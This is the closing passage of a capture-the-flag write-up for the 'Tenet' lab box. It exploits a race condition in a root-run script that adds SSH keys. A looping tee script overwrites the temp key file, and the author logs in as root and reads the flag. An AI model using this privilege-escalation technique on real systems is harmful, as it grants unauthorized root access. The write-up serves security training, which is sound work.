 ```bash
    /bin/cat $tmpName >>/root/.ssh/authorized_keys
    /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

As we don't have the private key, we could hijack its execution because the function `addKey` creates a temporary file containing the public key to be added to `root`'s authorized keys, having a race condition. If we could manage to overwrite this file during the script execution, we could inject our public key instead of the one present in the script.

The challenge here is to predict the name of the file created, once it uses the `mktemp` command, but as we have an idea of its format (`/tmp/ssh-XXXXX`) we could find a way to paste the contents from our public key to all files matching the same pattern. After some tests and research, the command `tee` was the solution, allowing us to output a content to multiple files at the same time. The simple script below was created to do this task.

```bash
#!/bin/bash
while true; do
        echo "ssh-rsa AAAA..............BBBB= root@ubuntu" | tee /tmp/ssh-* 2> /dev/null;
done
```

With the above script in execution, simply executed the bash script with `sudo` and then connected to the box with the previously created ssh private key, granting me root access and allowing me to get the root flag :smiley:

```bash
neil@tenet:/tmp$ sudo  /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ ssh -i tenet root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
[...]
root@tenet:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenet:~# cat /root/root.txt
b05e57e997cda49b47757cd3f0f9ac43
```

I hope you guys have enjoyed this box resolution!

See you in the next post! :smiley:
